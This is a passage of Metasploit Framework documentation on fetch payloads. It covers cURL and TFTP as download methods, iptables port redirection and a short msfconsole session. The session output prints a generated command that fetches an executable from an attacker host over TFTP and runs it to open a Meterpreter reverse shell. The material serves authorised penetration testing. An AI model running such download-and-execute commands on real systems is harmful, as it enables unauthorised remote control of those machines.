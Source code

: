 If you have an exploit that already supports Unix Command payloads and you'd like it to support Linux Command payloads
like Fetch Payloads, you can simply add the `linux` value to the platform array:

```ruby
'Nix Command',
  {
    'Platform' => [ 'unix', 'linux' ],
    'Arch' => ARCH_CMD,
    'Type' => :unix_cmd,
  }
```

## Supported Commands
### Windows And Linux Both
#### `CURL` 
cURL comes pre-installed on Windows 10 and 11, and it is incredibly common on linux platforms and the options are very
standardized across releases and platforms.  This makes cURL a good default choice for both Linux and Windows 
targets.  All options and server protocol types are supported by the cURL command.

#### `TFTP` 
The TFTP binary is useful only in edge cases because of a long list of limitations:
1) It is a Windows feature, but it is turned off by default on Windows Vista and later.
2) While you are likely to find it on Linux and Unix hosts, the options are not standard across releases.
3) The TFTP binary included in many Linux systems and all Windows systems does not allow for the port to be configured,
nor does it allow for the destination filename to be configured, so `FETCH_SRVPORT` must always be set to 69 and 
`FETCH_WRITABLE_DIR` and `FETCH_FILENAME` must be empty.  Listening on port 69 in Framework can be problematic, so I
suggest that you use the advanced option `FetchListenerBindPort` to start the server on a different port and redirect
the connection with a tool like iptables to a high port.
For example, if you are on a linux host with iptables, you can execute the following commands to redirect a connection
on UDP port 69 to UDP port 3069:
`sudo iptables -t nat -I PREROUTING -p udp --dport 69 -j REDIRECT --to-ports 3069`
`sudo iptables -t nat -I OUTPUT -p udp -d 127.0.0.1 --dport 69 -j REDIRECT --to-ports 3069`
Then, you can set `FetchListenerBindPort` to 3069 and get the callback correctly.
4) Because tftp is a udp-based protocol and because od the implementation of the server within Framework, each time you
start a tftp fetch handler, a new service will start:
```msf
msf payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > jobs

Jobs
====

  Id  Name                    Payload                                       Payload opts
  --  ----                    -------                                       ------------
  2   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4444

msf payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set LPORT 4445
LPORT => 4445
msf payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > to_handler

[*] Command to run on remote host: curl -so plEYxIdBQna.exe tftp://10.5.135.201:8080/test1 & start /B plEYxIdBQna.exe
[*] Payload Handler Started as Job 4

```